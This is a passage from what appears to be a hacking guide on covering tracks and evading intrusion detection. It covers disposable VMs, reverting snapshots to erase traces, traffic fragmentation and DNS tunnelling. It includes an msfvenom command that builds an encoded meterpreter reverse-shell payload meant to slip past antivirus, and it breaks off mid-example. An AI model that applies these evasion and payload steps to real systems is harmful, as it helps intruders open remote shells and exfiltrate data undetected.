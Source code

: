     Disposable VMs: Use virtual machines (VMs) that can be quickly set up and destroyed after use. This prevents forensic analysis from tracking back to the original user. Disposable VMs can be pre-configured with VPNs, TOR, and other anonymizing tools.

    Live Operating Systems: Using live operating systems, such as Tails or Kali Linux Live, which run entirely from USB drives or DVDs, helps avoid leaving traces on the host machine.

    Snapshotting VMs: Before conducting potentially suspicious activities, take a snapshot of the VM. After completing the task, revert to the snapshot to erase all traces of the activity.
        Command Example (Taking a snapshot in VirtualBox):

        bash

            VBoxManage snapshot "VM name" take "Snapshot name"

C. Bypassing Intrusion Detection Systems (IDS) and Firewalls

Intrusion Detection Systems (IDS) and Firewalls are designed to detect and block malicious activities. Hackers and researchers often need to bypass these security measures to maintain stealth.

    Techniques for Evading IDS/IPS:

        Encryption: Use encrypted communication to avoid being detected by signature-based IDS. This can involve using SSH tunnels, VPNs, or encrypted web traffic (HTTPS).
            Command Example (SSH tunneling):

            bash

    ssh -L 1234:remote_host:5678 user@remote_host

Fragmentation: Break payloads into smaller packets to avoid detection by IDS. Some IDS might not properly reassemble fragmented packets, allowing malicious traffic to slip through.

Polymorphic and Metamorphic Code: Use code that changes its appearance with each execution to avoid signature-based detection. Tools like Metasploit can create payloads that change each time they are generated.

    Command Example (Generating a polymorphic payload with Metasploit):

    bash

        msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=port -e x86/shikata_ga_nai -i 5 -f exe > payload.exe

    Timing Attacks: Send malicious traffic at random or irregular intervals to avoid triggering IDS thresholds that detect abnormal activity levels.

    Using Legitimate Protocols: Hide malicious activities within legitimate protocols such as DNS or HTTPS, making it difficult for IDS to distinguish between normal and malicious traffic.
        Example Tool: DNS tunneling tools like Dnscat2 or iodine can be used to create covert channels over DNS.

Using Covert Channels:

    Definition: Covert channels are methods of transmitting information secretly by embedding it within other communications. They are often used to exfiltrate data or send commands to compromised systems without being detected.

    Common Covert Channels:

        DNS Tunneling: Encode data in DNS queries and responses. Since DNS traffic is often allowed through firewalls and not scrutinized by IDS, it can be used as a covert channel.
            Example Tools:
                iodine: A tool for creating IPv4 DNS tunnels.
                    Command Example:
